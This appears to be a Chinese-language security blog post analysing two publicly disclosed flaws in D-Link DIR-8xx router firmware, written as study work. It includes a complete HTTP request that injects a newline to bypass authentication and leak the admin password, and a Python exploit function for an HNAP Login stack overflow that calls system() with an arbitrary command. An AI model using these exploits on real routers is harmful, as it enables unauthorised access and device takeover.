


D-Link DIR 8xx 漏洞分析
老外披露了几个 D-Link DIR 8xx 系列的漏洞，作为练手，对其分析、学习了下～
参数注入导致认证绕过
/usr/sbin/phpcgi 负责响应对于 .php、.txt、.asp 的请求，其实质为 /htdocs/cgibin 的链接文件：
➜ dlink-dir8xx ls -l _DIR890LA1_FW108b03.bin.extracted/squashfs-root/usr/sbin/phpcgi
lrwxr-xr-x 1 chu staff 14B 9 18 14:58 _DIR890LA1_FW108b03.bin.extracted/squashfs-root/usr/sbin/phpcgi -> /htdocs/cgibin
进而去逆向 /htdocs/cgibin：
int __cdecl main(int argc, const char **argv, const char **envp)
{
[...]
ret = 1;
ptr = strrchr(*argv, '/'); if ( ptr )
filename = ptr + 1; else
filename = *argv; if ( !strcmp(filename, "scandir.sgi") )
{
ret = sub_1D214(argc, argv);
} else if ( !strcmp(filename, "phpcgi") )
{
ret = handlePhpCgi(argc, argv, envp);
} else if ( !strcmp(filename, "dlapn.cgi") )
{
ret = sub_F9E8(argc, argv, envp);
[...]
程序通过判断文件名来对请求进行不同的处理。跟进 handlePhpCgi 后可以看到对请求参数、请求头进行解析后将执行权交给 php，解析过程如下：
int __fastcall handlePhpCgi(int argc, char **argv, char **envp)
{
[...]
ret = -1;
buf = 0; if ( argc > 1 )
{
buf = Malloc0x18();
if ( buf )
{
AddStr(buf, argv[1]);
AddChar(buf, '\n');
AddEnvp(buf, envp);
method = getenv("REQUEST_METHOD");
if ( method ) // 解析参数
{
if ( !strcasecmp(method, "HEAD") )
{
ret = ProcessHTTPRequest(GetKeyValue, buf, 0x80000u);
}
else if ( !strcasecmp(method, "GET") )
{
ret = ProcessHTTPRequest(GetKeyValue, buf, 0x80000u);
}
else
{
if ( strcasecmp(method, "POST") )
goto LABEL_16;
ret = ProcessHTTPRequest(PostKeyValue, buf, 0x80000u);
}
[...]
对参数进行解析后，将其储存以键值对的形式（_TYPE_KEY=VALUE，TYPE 为 GET、POST、SERVER），并以 \n 分隔储存到一字符串中，调试如下：

然后进行认证检查，将检查的结果赋值给 AUTHORIZED_GROUP 并保存到字符串中作为全局变量传递给 php：
[...]
if ( ret >= 0 )
{
authFlag = CheckAuth(); // 是否认证通过
sprintf(&s, "AUTHORIZED_GROUP=%d", authFlag);
AddStr(buf, &s);
AddChar(buf, '\n');
AddStr(buf, "SESSION_UID="); // 设置 Cookie
AddCookie(buf);
AddChar(buf, '\n');
msg = GetMsgPtr(buf);
ret = executePhpScript(0, 0, msg, stdout);// 执行 PHP 脚本}
[...]
在整个解析流程中并没有对参数中的 \n 进行过滤，所以如果通过注入 \n 进而注入 AUTHORIZED_GROUP 就可以绕过认证检查，未经授权执行 php 脚本。
分析 /htdocs/web/getcfg.php：
HTTP/1.1 200 OK
Content-Type: text/xml
<?echo "<?";?>xml version="1.0" encoding="utf-8"<?echo "?>";?>
<postxml><? include "/htdocs/phplib/trace.php";
if ($_POST["CACHE"] == "true")
{
echo dump(1, "/runtime/session/".$SESSION_UID."/postxml");
}
else
{
if($AUTHORIZED_GROUP < 0)
{
/* not a power user, return error message */
echo "\t<result>FAILED</result>\n";
echo "\t<message>Not authorized</message>\n";
}
else
{ // 认证通过
/* cut_count() will return 0 when no or only one token. */
$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
$SERVICE_INDEX = 0;
while ($SERVICE_INDEX < $SERVICE_COUNT)
{
$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
if ($GETCFG_SVC!="")
{
$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
/* GETCFG_SVC will be passed to the child process. */
// 执行 SERVICES 参数中的脚本
if (isfile($file)=="1") dophp("load", $file);
}
$SERVICE_INDEX++;
}
}
}?></postxml>
在认证通过后程序获取 $_POST["SERVICES"] 参数，将其拼接到字符串中进行包含。/htdocs/webinc/getcfg/ 目录（也可以通过 ../ 跳转目录）下为路由的配置文件，比如 DEVICE.ACCOUNT.xml.php 中保存着路由的管理密码：
[...]
foreach("/device/account/entry")
{
if ($InDeX > $cnt) break;
echo "\t\t\t<entry>\n";
echo "\t\t\t\t<uid>". get("x","uid"). "</uid>\n";
echo "\t\t\t\t<name>". get("x","name"). "</name>\n";
echo "\t\t\t\t<usrid>". get("x","usrid"). "</usrid>\n";
echo "\t\t\t\t<password>". get("x","password")."</password>\n";
echo "\t\t\t\t<group>". get("x", "group"). "</group>\n";
echo "\t\t\t\t<description>".get("x","description")."</description>\n";
echo "\t\t\t</entry>\n";
}
[...]
完整利用请求如下：
POST /getcfg.php?a=b%0aAUTHORIZED_GROUP%3d0 HTTP/1.0
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.91 Safari/537.36
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4,ko;q=0.2
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
SERVICES=DEVICE.ACCOUNT
HTTP/1.1 200 OK
Server: WebServer
Date: Tue, 19 Sep 2017 05:21:34 GMT
Content-Type: text/xml
<?xml version="1.0" encoding="utf-8"?>
[...]
<uid></uid>
<name>Admin</name>
<usrid></usrid>
<password>1qaz2wsx3edc</password>
<group>0</group>
[...]
获取到管理密码后可以通过上传固件等方式达到代码执行的效果。
HNAP 栈溢出
漏洞存在于针对 HNAP 请求的响应中，同样位于 /htdocs/cgibin 中：
int __cdecl main(int argc, const char **argv, const char **envp)
{
[...]
else if ( !strcmp(filename, "hnap") )
{
ret = handleHNAP(argc, argv, envp);
}
[...]
跟进 handleHNAP，其逻辑如下：
int __fastcall handleHNAP(int argc, char **argv, char **envp)
{
[...]
ret = 0;
memset(&s, 0, 0x100u);
authorization = getenv("HTTP_AUTHORIZATION");
soapaction = getenv("HTTP_SOAPACTION");
method = getenv("REQUEST_METHOD");
a1 = 0;
hnapAuth = getenv("HTTP_HNAP_AUTH");
cookie = getenv("HTTP_COOKIE");
referer = getenv("HTTP_REFERER");
memset(&name, 0, 0x100u);
if ( soapaction )
{
if ( strcmp(soapaction, "http://purenetworks.com/HNAP1/GetDeviceSettings")
&& strcmp(soapaction, "\"http://purenetworks.com/HNAP1/GetDeviceSettings\"") )
{
if ( strstr(soapaction, "http://purenetworks.com/HNAP1/GetCAPTCHAsetting") )
{
soapaction = "http://purenetworks.com/HNAP1/GetCAPTCHAsetting";
if ( !strcasecmp(method, "POST") )
ProcessHTTPRequest(0, 0, 0);
ret = sub_19C48(cookie);
goto LABEL_46;
}
if ( strstr(soapaction, "http://purenetworks.com/HNAP1/Login") )
{
soapaction = "http://purenetworks.com/HNAP1/Login";
ret = HNAPLogin(cookie);
goto LABEL_46;
}
[...]
根据 HTTP_SOAPACTION 的不同进入不同的处理分支中，跟进登陆分支 HNAPLogin 函数：
int __fastcall HNAPLogin(char *cookie)
{
[...]
buf = Malloc0x18();
v36 = 0;
v35 = 0;
ProcessHTTPRequest(GetKeyValueByTag, 0, 0x10000u);
msg = GetMsgPtr(buf);
GetValueByTag(msg, "Action", &action);
v2 = GetMsgPtr(buf);
GetValueByTag(v2, "Username", &username);
v3 = GetMsgPtr(buf);
GetValueByTag(v3, "LoginPassword", &loginPassword);
v4 = GetMsgPtr(buf);
GetValueByTag(v4, "Captcha", &captcha);
src = &username;
v34 = 0;
v32 = -1;
v35 = sub_10C0C(&v32);
if ( v35 >= 0 )
{
[...]
通过 GetValueByTag 解析请求中的 POST 数据（<key>value</key>）：
char *__fastcall GetValueByTag(char *data, char *tag, char *dst)
{
[...]
sprintf(&tagStart, "<%s>", tag);
sprintf(&tagEnd, "</%s>", tag);
startLength = strlen(&tagStart);
v14 = startLength + 1;
ret = strstr(data, &tagStart);
valueStart = ret;
if ( ret )
{
valueStart += startLength;
ret = strstr(valueStart, &tagEnd);
valueEnd = ret;
if ( ret )
{
valueLength = valueEnd - valueStart;
if ( valueEnd - valueStart >= 0 )
{
strncpy(&value, valueStart, valueLength);
v16[valueLength - 0x414] = 0;
ret = strcpy(dst, &value);
}
}
}
return ret;
}
可以看到，程序未对值长度进行任何判断就将其复制到字符串中（strcpy），导致了栈溢出。
➜ dlink-dir8xx checksec _DIR890LA1_FW108b03.bin.extracted/squashfs-root/htdocs/cgibin
[*] '/Users/chu/Desktop/dlink-dir8xx/_DIR890LA1_FW108b03.bin.extracted/squashfs-root/htdocs/cgibin'
Arch: arm-32-little
RELRO: No RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8000)
程序只开启了 NX 防护，但代码中有多处 system 的调用，并且在函数返回时 R0 指向输入的数据，所以很容易构造 ROP 链：
def exploit(host, port, cmd):
cmd = cmd if cmd.endswith(";") else cmd + ";"
payload = "<Action>{}".format(cmd)
payload += "A" * (StackSize - len(cmd)) + p32(0xffffffff) + "A" * JunkSize
payload += p32(CallSystem)[:3] # avoid "\00"
payload += "</Action>"
url = "http://{}:{}/HNAP1/".format(host, port)
header = {
"SOAPACTION": "http://purenetworks.com/HNAP1/Login",
"Content-Type": "text/html"
}
try:
resp = requests.post(url, payload, headers=header, timeout=3)
resp.close()
except Exception as ex:
return "error: {}".format(ex)
return resp.text
利用如下：

可下载 Bin 文件及 IDB 文件：GitHub。
参考
Enlarge your botnet with: top D-Link routers (DIR8xx D-Link routers cruisin’ for a bruisin’)